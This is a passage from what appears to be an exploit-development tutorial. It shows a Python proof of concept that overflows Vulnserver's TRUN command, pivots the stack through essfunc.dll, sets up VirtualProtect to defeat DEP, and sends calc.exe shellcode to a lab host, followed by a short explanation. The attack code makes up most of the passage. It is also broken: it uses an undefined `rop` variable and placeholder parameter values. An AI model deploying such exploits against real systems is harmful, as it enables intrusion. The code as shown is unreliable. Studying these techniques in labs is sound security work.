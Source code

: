 ```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding between future ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+shellcode+filler)
s.close()
```

Before moving on, you may have noticed an arbitrary `parameter` variable for a parameter called `return address` added into the POC. This is not a part of the official parameters for `VirtualProtect()`. The reason this address is there (and right under the `VirtualProtect()` function) is because whenever the call to the function occurs, there needs to be a way to execute our shellcode. The address of `return` is going to contain the address of the shellcode - so the application will jump straight to the user supplied shellcode after `VirtualProtect()` runs. The location of the shellcode will be marked as read, write, and execute.

One last thing. The reason we are adding the shellcode now, is because of one of the properties of DEP. The shellcode will not be executed until we change the permissions of DEP. It is written in advance because DEP will allow us to write to the stack, so long as we are not executing.
